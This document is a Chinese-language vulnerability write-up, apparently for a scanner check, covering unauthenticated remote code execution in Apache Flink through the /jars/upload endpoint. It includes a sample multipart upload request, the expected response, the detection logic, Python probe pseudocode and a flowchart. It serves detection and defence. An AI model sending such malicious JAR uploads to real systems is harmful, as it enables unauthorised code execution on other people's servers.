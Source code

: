 # Apache Flink 未授权远程代码执行漏洞（apache-flink-unauth-rce）

## 漏洞简介
Apache Flink 存在未授权远程代码执行（RCE）漏洞，攻击者可在无需认证的情况下上传恶意 JAR 文件并执行任意代码，危害极大。

## 影响范围
- 受影响产品：Apache Flink
- 影响版本：部分未做认证保护的 Flink 版本

## 漏洞原理
Flink 的 JAR 上传接口 `/jars/upload` 未做访问控制，攻击者可直接上传恶意 JAR 文件，随后通过相关 API 触发执行，实现远程代码执行。

## 利用方式与攻击流程
1. 攻击者构造 multipart/form-data POST 请求，向 `/jars/upload` 上传恶意 JAR 文件。
2. 上传成功后，利用 Flink 提供的 API 触发 JAR 执行，实现任意代码执行。

## 探测原理与流程
### 请求包示例
```http
POST /jars/upload HTTP/1.1
Host: target.com
Content-Type: multipart/form-data;boundary=8ce4b16b22b58894aa86c421e8759df3

--8ce4b16b22b58894aa86c421e8759df3
Content-Disposition: form-data; name="jarfile";filename="poc.jar"
Content-Type:application/octet-stream

  <JAR 文件内容>
--8ce4b16b22b58894aa86c421e8759df3--
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json
{
  "filename": "_poc.jar",
  "status": "success"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `application/json`。
- 响应体包含 `success` 和 `_poc.jar`。

### 伪代码
```python
files = {'jarfile': ('poc.jar', b'binary_content')}
resp = requests.post('http://target.com/jars/upload', files=files)
if resp.status_code == 200 and 'application/json' in resp.headers.get('Content-Type','') and all(x in resp.text for x in ['success','_poc.jar']):
    print('存在未授权 RCE 漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造 JAR 上传请求]
    B --> C[发送 POST 请求]
    C --> D[检查响应内容]
    D --> E{是否包含 success 和 _poc.jar?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在未授权 RCE 漏洞]
```

## 参考链接
- [Exploit-DB 漏洞分析](https://www.exploit-db.com/exploits/48978)
- [Flink 1.9.x 配置与安全分析](https://adamc95.medium.com/apache-flink-1-9-x-part-1-set-up-5d85fd2770f3)
- [LandGrey/flink-unauth-rce](https://github.com/LandGrey/flink-unauth-rce) 